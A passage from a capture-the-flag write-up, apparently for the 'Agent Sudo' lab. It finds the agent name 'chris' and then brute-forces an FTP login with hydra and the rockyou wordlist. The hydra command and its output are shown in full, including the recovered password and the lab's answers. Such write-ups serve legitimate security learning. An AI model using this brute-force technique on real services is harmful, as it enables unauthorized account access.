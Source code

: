 Refreshing page we see agent name:

<figure><img src="../.gitbook/assets/Schermata del 2023-07-03 00-13-02.png" alt=""><figcaption><p><a href="http://10.10.89.63/agent_C_attention.php">http://10.10.89.63/agent_C_attention.php</a></p></figcaption></figure>

{% hint style="info" %}
chris
{% endhint %}

### Task 4 - Hash cracking and brute-force

#### 4.1 - FTP password

We knwo a username: chris, then, we can use hydra to find psw:\


```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt agent_sudo.thm ftp
```

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-02 18:24:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://agent_sudo.thm:21/
[STATUS] 244.00 tries/min, 244 tries in 00:01h, 14344155 to do in 979:48h, 16 active
[21][ftp] host: agent_sudo.thm   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
```

{% hint style="info" %}
crystal
{% endhint %}

chris::crystal

#### 4.2 - Zip file password

It's time to access with ftp credentials:\
